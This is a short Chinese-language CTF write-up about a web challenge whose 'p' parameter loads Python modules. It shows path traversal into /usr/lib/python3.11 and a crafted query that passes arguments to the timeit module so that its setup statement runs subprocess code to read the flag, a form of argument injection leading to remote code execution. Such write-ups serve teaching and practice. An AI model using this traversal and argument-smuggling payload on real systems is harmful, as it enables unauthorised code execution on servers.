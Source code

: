 感觉很有意思的一道题

各个页面都是通过p参数来切换

比如这个

```
/?p=guestbook 
```

然后这里会发现一个特殊的报错

```
/?p=guestbook&o=add&n=cyny666&t= 
```

报错这个

![image-20240513200038626](C:/Users/86186/Desktop/write-up/ctfs/cyber%20CTF/assets/image-20240513200038626.png)

于是会发现前面的p应该是引用的python文件

后面的是参数

然后构造了这个

```
/?p=../../../../../../../../../../usr/lib/python3.11/__hello__ 
```

成功返回了hello

在kali中的python3.11目录下查看能用的标准库,发现可以用来rce的有这个

timeit.py

可以查看help

```
Options:
  -n/--number N: how many times to execute 'statement' (default: see below)
  -r/--repeat N: how many times to repeat the timer (default 5)
  -s/--setup S: statement to be executed once initially (default 'pass').
                Execution time of this setup statement is NOT timed.
  -p/--process: use time.process_time() (default is time.perf_counter())
  -v/--verbose: print raw timing results; repeat for more digits precision
  -u/--unit: set the output time unit (nsec, usec, msec, or sec)
  -h/--help: print this usage message and exit
  --: separate options from statement, use when statement starts with -
  statement: statement to be timed (default 'pass')
```

然后即可构造exp

```sh
p=../../../../../../../../../../lib/python3.11/timeit&-n&1&-s&import subprocess; print(subprocess.check_output('/readflag'))
```

对应的kali里面的使用是

```shell
python3 timeit.py -n 1 -s "import os;print(os.listdir())"
```

一种新型的命令拼接



